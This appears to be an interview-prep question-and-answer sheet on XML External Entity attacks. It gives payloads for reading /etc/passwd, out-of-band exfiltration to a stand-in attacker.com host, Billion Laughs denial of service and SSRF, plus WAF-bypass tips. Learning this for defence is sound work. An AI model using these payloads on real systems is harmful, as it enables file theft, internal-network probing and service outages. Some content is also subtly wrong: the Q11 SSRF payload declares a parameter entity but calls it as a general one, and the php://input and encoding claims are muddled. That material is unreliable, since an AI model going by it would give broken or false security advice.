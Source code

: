 ### 1. **What is an XML External Entity (XXE) attack, and how does it work?**
   - **Expected Answer**: XXE is a type of attack where an attacker exploits an XML parser’s vulnerability to process malicious XML input that includes references to external entities. These external entities can refer to files on the local server, internal services, or remote locations, allowing the attacker to read files, perform Denial of Service (DoS) attacks, or execute server-side request forgery (SSRF).

### 2. **Explain how XXE can be used to retrieve sensitive files like `/etc/passwd` or `boot.ini`. Provide an example payload.**
   - **Expected Answer**: XXE allows an attacker to reference system files through the `file://` protocol. For example:
     ```xml
     <?xml version="1.0"?>
     <!DOCTYPE root [
       <!ENTITY test SYSTEM 'file:///etc/passwd'>
     ]>
     <root>&test;</root>
     ```
     This payload causes the XML parser to retrieve and return the contents of `/etc/passwd` when parsed by a vulnerable server.

### 3. **What is a Blind XXE attack, and how is it different from a classic XXE attack?**
   - **Expected Answer**: A Blind XXE attack occurs when there is no direct feedback or output from the XML parser. The attacker has to rely on indirect methods, such as triggering an out-of-band request or observing changes in system behavior (like error logs). For example:
     ```xml
     <?xml version="1.0" ?>
     <!DOCTYPE root [
       <!ENTITY % ext SYSTEM "http://example.com/test.dtd">
       %ext;
     ]>
     <root></root>
     ```
     The server might make an out-of-band request to the attacker's server without revealing the data directly.

### 4. **What is the "Billion Laughs" attack, and how can it be exploited in an XXE context?**
   - **Expected Answer**: The Billion Laughs attack is a form of XML DoS (Denial of Service) that leverages exponential entity expansion. It works by defining entities that reference themselves or other entities recursively, causing exponential growth in the XML document. This can overwhelm the XML parser and lead to a crash.
     Example:
     ```xml
     <!DOCTYPE data [
       <!ENTITY a0 "dos">
       <!ENTITY a1 "&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;&a0;">
       <!ENTITY a2 "&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;&a1;">
       <!ENTITY a3 "&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;&a2;">
       <!ENTITY a4 "&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;&a3;">
     ]>
     <data>&a4;</data>
     ```
     This attack could result in a massive number of entities being expanded, potentially causing the server to exhaust memory or crash.

### 5. **Explain the concept of Out-of-Band (OOB) XXE exploitation and provide an example scenario.**
   - **Expected Answer**: OOB XXE attacks use a network-based response to exfiltrate data, where the attacker triggers an out-of-band request (like an HTTP request) to a server controlled by the attacker. For example:
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE doc [
       <!ENTITY % dtd SYSTEM "http://attacker.com/xxe.dtd">
       %dtd;
     ]>
     <doc>&send;</doc>
     ```
     The external DTD (`xxe.dtd`) may instruct the server to send data (like `/etc/passwd`) to the attacker's server.

### 6. **What is the difference between an internal and external XML entity, and how do they relate to XXE vulnerabilities?**
   - **Expected Answer**: Internal entities are defined within the DTD and are referenced within the same XML document, while external entities point to an external resource (e.g., a file or URL) using the `SYSTEM` keyword. XXE vulnerabilities occur when an attacker can control external entities, often leading to the leakage of sensitive data or SSRF.

### 7. **Can XXE vulnerabilities be exploited in file formats other than XML? If so, give examples.**
   - **Expected Answer**: Yes, XXE vulnerabilities can be exploited in various file formats that support XML-based configurations, such as:
     - **SVG**: Embedded XML can be exploited to include malicious entities.
     - **DOCX/XLSX/PPTX**: These are based on XML and can contain embedded XXE payloads within the XML files inside the ZIP archive.
     - **SOAP**: XML-based Web Services can be vulnerable to XXE if the service parses untrusted XML input.

### 8. **What are some defensive techniques to mitigate XXE vulnerabilities?**
   - **Expected Answer**:
     - **Disable External Entity Processing**: Most XML parsers allow you to disable external entity processing entirely.
     - **Use a Whitelist**: Restrict what files or URLs can be accessed via external entities.
     - **Validate Input**: Ensure that XML data is sanitized and does not contain malicious entities.
     - **Use Updated Libraries**: Ensure that libraries and XML parsers are up to date and patched for known XXE vulnerabilities.

### 9. **How does the concept of "parameter entities" relate to XXE attacks?**
   - **Expected Answer**: Parameter entities allow attackers to reference and modify large chunks of the DTD definition. Using them, attackers can chain multiple entities together in such a way that it triggers a large payload (e.g., a "Billion Laughs" attack). This allows an attacker to exhaust system resources or exfiltrate data through multiple entities.

### 10. **What are some common methods to bypass WAFs when exploiting XXE vulnerabilities?**
   - **Expected Answer**: 
     - **Character Encoding**: Changing the character encoding (e.g., UTF-16) may bypass WAF rules that only look for UTF-8 patterns.
     - **Use of Alternative Syntax**: Encodings like `data://`, `php://`, or `file://` might be used to bypass WAF filters.
     - **Encoding in Base64**: Some WAFs may not recognize certain payloads if they are encoded in Base64.

### 11. **What is a classic XXE vulnerability payload to trigger an SSRF attack, and how does it work?**
   - **Expected Answer**: SSRF (Server-Side Request Forgery) in the context of XXE can be triggered when an XML entity points to an internal service that should not be accessible. For example:
     ```xml
     <?xml version="1.0" encoding="UTF-8"?>
     <!DOCTYPE foo [
       <!ENTITY % xxe SYSTEM "http://internal.service/secret_pass.txt">
     ]>
     <foo>&xxe;</foo>
     ```
     In this case, the XML parser sends a request to an internal service, and the attacker can exfiltrate sensitive data like passwords.

### 12. **How do XML parsers handle different encodings (e.g., UTF-8 vs. UTF-16), and how can this affect the success of an XXE attack?**
   - **Expected Answer**: XML parsers typically use byte order marks (BOM) or XML declarations (`<?xml version="1.0" encoding="UTF-16"?>`) to detect the encoding. Attackers can manipulate encoding (e.g., converting to UTF-16) to bypass filters that only look for UTF-8 encoded attacks. Converting payloads into a different encoding (such as UTF-16) may allow attackers to evade detection by some WAFs.

### 13. **Can you describe how XXE can be used for remote file inclusion or webshell access?**
   - **Expected Answer**: XXE can allow attackers to access sensitive files such as configuration files (`/etc/passwd`), or in some cases, even execute code by referencing PHP wrappers or other system resources. An attacker may use `php://filter` to read files and encode them in base64, or use `php://input` to execute arbitrary PHP code.
